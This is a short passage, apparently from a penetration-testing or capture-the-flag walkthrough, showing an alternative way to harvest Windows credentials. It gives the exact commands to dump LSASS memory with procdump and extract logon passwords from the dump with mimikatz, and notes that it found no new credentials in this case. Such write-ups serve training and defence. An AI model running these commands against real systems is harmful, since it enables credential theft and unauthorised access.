 ![image28](../resources/e9d9b077d1424baa8baa23e55aa02496.png)


![image29](../resources/159d6d4c603648809a3933b4008df225.png)

**<u>Another option -</u>**

That didn't provide credentials here, apart from the ones we already had, is:

- Upload procdump.exe

![image30](../resources/74b44a7345ec4e0f9ab1dbf0703ded9f.png)

- Run:

```bash
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp

```

![image31](../resources/02ec735fe10d4c348dc76b907af9a0b7.png)

- Upload mimikatz.exe

- Run .\mimikatz.exe (in same directory as lsass.dmp):

```bash
sekurlsa::minidump lsass.dmp

sekurlsa::logonpasswords

```
